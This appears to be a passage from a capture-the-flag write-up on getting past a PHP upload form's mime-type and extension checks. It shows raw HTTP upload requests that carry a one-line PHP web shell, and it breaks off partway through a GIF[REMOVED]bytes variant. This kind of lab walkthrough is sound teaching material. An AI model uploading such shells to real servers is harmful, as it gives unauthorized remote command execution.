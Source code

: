 ## Foothold
As we can see from the code inside the backup.tar archive there are different validations going on.  
First thing, the application is validating file size and mime type:
```
if (!(check_file_type($_FILES["myFile"]) && filesize($_FILES['myFile']['tmp_name']) < 60000)) {
  echo '<pre>Invalid image file.</pre>';
  displayform();
}
```
The function ```check_file_type()``` checks the file mime type:
```
function check_file_type($file) {
  $mime_type = file_mime_type($file);
  if (strpos($mime_type, 'image/') === 0) {
      return true;
  } else {
      return false;
  }  
}
```
so we need to trick the application and send as file mime-type ```image/*```.
As an additional validation, the application is checking for a valid extension. The uploaded file must have an extension within this list:
```
$validext = array('.jpg', '.png', '.gif', '.jpeg');
```
So again, we need to trick the application and send an *.gif or whatever file.  
Here we have an unproper error handling issue that help us in detecting where we are making miskakes in crafting our payload.  
In fact, in the first case we have the following error message:
```
echo '<pre>Invalid image file.</pre>';
```
If the second validation fails we have the following error instead:
```
echo "<p>Invalid image file</p>";
```
We can see that one comes with the period and the other don't.  
Now, let's test each cases:  
If we send a .php payload since the file has a text mime type, we get ```Invalid image file.```
```
POST /upload.php HTTP/1.1
[... SNIP ...]

-----------------------------52707470211915190551741956971
Content-Disposition: form-data; name="myFile"; filename="exploit.php"
Content-Type: application/x-php

<?php system($_REQUEST['b0d']); ?>

-----------------------------52707470211915190551741956971
Content-Disposition: form-data; name="submit"

go!
-----------------------------52707470211915190551741956971--
```
Instead, if we send a payload with ```GIF8``` magic bytes, the mime type results valid and we get ```Invalid image file```. This means that we fell in the second validation.  
```
POST /upload.php HTTP/1.1
[... SNIP ...]

-----------------------------52707470211915190551741956971
Content-Disposition: form-data; name="myFile"; filename="exploit.php"
Content-Type: application/x-php
```